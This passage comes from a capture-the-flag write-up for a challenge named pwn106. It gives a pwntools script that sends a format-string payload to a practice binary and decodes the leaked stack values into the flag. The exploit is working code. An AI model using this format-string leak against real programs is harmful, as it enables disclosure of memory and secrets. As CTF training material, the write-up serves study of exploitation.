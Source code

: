 Some brute force actions we found right order of hex codes and reverse unhexed values and get the flag.

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn106user.pwn106-user'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

payload = b"%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

io = start()
io.recv()
io.recv()
io.sendline(payload)
output = io.recv().strip().split(b" ")[1].split(b".")
flag = ""
for word in output:
    decoded = unhex(word.decode("utf-8"))
    reverse_decoded = decoded[::-1]
    print(str(reverse_decoded.decode("utf-8")), end ="")
```

<p align="center"> <img src="assets/Untitled%2028.png"> </p>

# Challenge 7 - pwn107
